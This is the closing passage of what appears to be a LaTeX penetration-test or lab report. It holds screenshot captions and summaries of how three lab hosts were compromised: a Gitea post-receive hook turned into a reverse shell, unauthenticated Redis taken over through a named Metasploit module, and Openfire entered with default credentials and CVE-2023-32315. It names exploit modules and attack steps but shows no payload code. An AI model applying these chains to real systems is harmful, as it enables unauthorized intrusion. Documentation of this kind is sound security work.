    
\includegraphics[width=0.95\textwidth]{evidence/gitea-screenshots/03_reverse_shell_git_push.png}
    \caption{Git Push Command Execution - Reverse Shell Callback and Git Commit}
    \label{fig:git_push}
\end{figure}

\subsection{DC31\_02 (Redis v5.0.7) - Enumeration and Exploitation Evidence}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\textwidth]{evidence/redis-enumeration/01_nmap_redis_discovery.png}
    \caption{Redis Service Discovery - Nmap Output Showing Redis 5.0.7 on Port 6379/tcp}
    \label{fig:nmap_redis}
\end{figure}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\textwidth]{evidence/redis-enumeration/02_redis_cli_unauthenticated.png}
    \caption{Unauthenticated Redis Access - redis-cli Connection Without Password}
    \label{fig:redis_cli}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/01_metasploit_redis_module_exploit.png}
    \caption{Metasploit Module Configuration - Redis Replication Command Execution Setup}
    \label{fig:msf_redis_config}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/02_redis_reverse_shell_session.png}
    \caption{Root Shell Access - Redis Post-Exploitation Session (uid=0, whoami=root)}
    \label{fig:redis_shell}
\end{figure}

\subsection{DC31\_03 (Openfire v4.7.4) - Exploitation Evidence}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/openfire-screenshots/01_openfire_admin_console.png}
    \caption{Openfire Admin Console - Server Information and Configuration Access}
    \label{fig:openfire_console}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/03_metasploit_openfire_search.png}
    \caption{Metasploit Module Search - CVE-2023-32315 Exploit Identification}
    \label{fig:msf_openfire_search}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/04_openfire_exploit_configuration.png}
    \caption{Exploit Module Configuration - CVE-2023-32315 Options and Target Settings}
    \label{fig:msf_openfire_config}
\end{figure}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/05_openfire_exploit_execution.png}
    \caption{Exploit Execution - Plugin Injection and Administrative User Creation}
    \label{fig:openfire_exploit}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{evidence/metasploit-logs/06_openfire_root_shell_confirmation.png}
    \caption{Root Shell Access Confirmation - uid=0(root) and gid=0(root) Privileges}
    \label{fig:openfire_shell}
\end{figure}
\section{Evidence Summary}

\subsection{Network Discovery}

The reconnaissance phase identified four active hosts within the target network segment (10.75.134.0/24):
\begin{itemize}
    \item 10.75.134.1 - Gateway/Router
    \item 10.75.134.90 - Gitea v1.4.0 (Port 3000/tcp)
    \item 10.75.134.92 - Redis v5.0.7 (Port 6379/tcp)
    \item 10.75.134.94 - Openfire v4.7.4 (Ports 5222, 5275, 9090/tcp)
\end{itemize}

\subsection{DC31\_01 Exploitation Summary}

The Gitea installation lacked the \texttt{INSTALL\_LOCK} configuration protection, exposing the administrative setup interface. Through this interface, a complete administrative account was created, providing access to repository management and Git hook configuration. The post-receive hook was weaponized with a reverse shell payload, achieving Remote Code Execution upon git push operations. Post-exploitation confirmed shell access as the git user (uid=1000).

\subsection{DC31\_02 Exploitation Summary}

Redis was deployed without any authentication mechanism (\texttt{requirepass} unset). Unauthenticated access via redis-cli confirmed complete lack of access controls. The Metasploit Framework module \texttt{exploit/linux/redis/redis\_replication\_cmd\_exec} was leveraged to compile and load a malicious C extension as a Redis module, executing arbitrary commands with root privileges (uid=0). Post-exploitation confirmed complete system compromise.

\subsection{DC31\_03 Exploitation Summary}

Openfire accepted default factory credentials (admin/admin) on the administrative console. The system was vulnerable to CVE-2023-32315, enabling path traversal and unauthorized plugin upload. The Metasploit Framework module \texttt{exploit/multi/http/openfire\_auth\_bypass\_rce\_cve\_2023\_32315} automated the exploitation chain: path traversal to bypass authentication, temporary administrative user creation, malicious Java plugin upload, and reverse shell execution. Post-exploitation confirmed root-level access (uid=0(root), gid=0(root)).

\end{document}
